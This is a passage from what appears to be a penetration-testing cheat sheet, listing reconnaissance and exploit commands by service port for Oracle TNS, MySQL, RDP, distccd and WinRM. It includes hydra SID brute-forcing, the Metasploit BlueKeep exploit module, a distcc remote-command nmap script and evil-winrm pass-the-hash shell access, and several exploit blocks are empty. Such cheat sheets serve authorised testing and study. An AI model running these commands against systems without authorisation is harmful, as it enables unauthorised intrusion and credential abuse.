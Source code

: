 ```bash
#Sometimes database is only listening for local connections, use following command to check for existence
netstat -tlnpu
ss -tlnpu
```
- <mark>Exploit</mark>
```bash

```
### Port-1521-Oracle TNS Listener
 - <mark>Reconnaissance</mark>
```bash
#SID Bruteforce
hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 <IP> oracle-sid
```
### Port-3306-MySQL
- <mark>Reconnaissance</mark>
```bash
#Checks for MySQL servers with an empty password for root or anonymous
nmap --script mysql-empty-password <IP address> -p 3306
```

```bash
#Sometimes database is only listening for local connections, use following command to check for existence
netstat -tlnpu
ss -tlnpu
```
- <mark>Exploit</mark>
```bash

```
### Port-3389-RDP
- <mark>Reconnaissance</mark>
```bash
#Windows CVE-2019-0708 RDP Vulnerability(BlueKeep)
auxiliary/scanner/rdp/cve-2019-0708_bluekeep
```
- <mark>Exploit</mark>
```bash
#Windows CVE-2019-0708 RDP Vulnerability(BlueKeep)
exploit/windows/rdp/cve-2019-0708_bluekeep
```
### Port-3632-distccd
- <mark>Reconnaissance</mark>
```bash
nmap -Pn  --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='<command>'" <target> -p 3632
```
- <mark>Exploit</mark>
```bash
```
### Port-5985-WinRM
- <mark>Reconnaissance</mark>
```bash

```
- <mark>Exploit</mark>
```bash
#Enable WinRM
winrm quickconfig -force
#Obtain Command Shell with legit credentials
evil-winrm -u <username> -p <password> -i <IP address>
evil-winrm -u <username> -H <NTLM Hash> -i <IP address>
```